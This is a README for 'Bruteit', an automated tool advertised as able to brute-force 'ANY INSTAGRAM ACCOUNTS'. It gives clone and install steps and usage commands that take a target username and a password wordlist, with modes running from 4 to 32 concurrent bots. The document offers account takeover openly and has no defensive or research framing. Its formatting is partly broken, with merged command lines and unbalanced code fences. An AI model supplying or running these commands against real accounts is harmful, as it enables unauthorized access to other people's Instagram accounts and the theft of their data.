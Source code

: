 # Bruteit
instagram bruteforcer automated
USING THIS TOOL YOU CAN BRUTEFORCE ANY INSTAGRAM ACCOUNTS
THIS TOOL WAS MODIFIED BY ME,,,
I ADDED A FEATURE OF AUTOBRUTE , WHICH MAKES YOU ALL RUN EASILY

INSTALLATION
---------------------------------------
* git clone https://github.com/H4ckr0pZ/Bruteit 
* cd Bruteit
* python3 -m pip install -r requirements.txt
---------------------------------------
================
RUNNING or USAGE
================

FOR AUTOMATED BRUTING
------------------------
* bash autobrute.shpython3 instagram.py <username> <wordlist> -m <mode>
```
------------------------
FOR MANUAL RUNNNING
-------------------------
### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
python3 instagram.py thor.1 pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

python3 instagram.py thor.1 pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
python3 instagram.py thor.1 pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
python3 instagram.py thor.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

